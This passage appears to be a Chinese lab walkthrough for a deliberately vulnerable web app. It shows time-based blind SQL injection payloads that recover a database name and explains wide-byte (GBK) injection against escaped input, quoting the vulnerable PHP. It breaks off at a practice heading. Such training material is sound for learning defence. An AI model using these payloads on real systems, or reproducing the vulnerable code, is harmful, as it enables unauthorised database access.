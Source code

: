 

发现页面延迟5秒才反应，说明存在注入



输入

```plain
vince' and if(length(database())=7,1,sleep(5))#  正常回显vince' and if(length(database())=8,1,sleep(5))#  延时5秒回显
```



正常回显



输入

```plain
vince' and if(substr((select database()),1,1)='p',1,sleep(5))#
```



正常回显说明数据库名称首字母为p



SQL注入详情可以看sqli-labs系类，这里不进行详细叙述。



# 宽字节注入

## 查看关键代码

```php
if(isset($_POST['submit']) && $_POST['name']!=null){    $name = escape($link,$_POST['name']);    $query="select id,email from member where username='$name'";//这里的变量是字符型，需要考虑闭合    //设置mysql客户端来源编码是gbk,这个设置导致出现宽字节注入问题    $set = "set character_set_client=gbk";    execute($link,$set);    //mysqi_query不打印错误描述    $result=mysqli_query($link, $query);    if(mysqli_num_rows($result) >= 1){        while ($data=mysqli_fetch_assoc($result)){            $id=$data['id'];            $email=$data['email'];            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";        }    }else{        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";    }}
```



通过查看源码可以知道对name参数进行了转义然后拼接到SQL语句中，而且需要考虑闭合，可使用#号注释，因为设置mysql客户端来源编码是gbk,所以导致出现宽字节注入问题。



```plain
id=1’    =处理=>  1 \’  =进行编码=>  1%5c%27   =带入sql后=> id= \’ and XXXX    此时无法完成注入id=1%df’ =处理=> 1%df\’ =进行编码=> 1%df%5c%27 =带入sql后=> id=1運’ and XXX    此时存在宽字节注入漏洞
```



## 实战
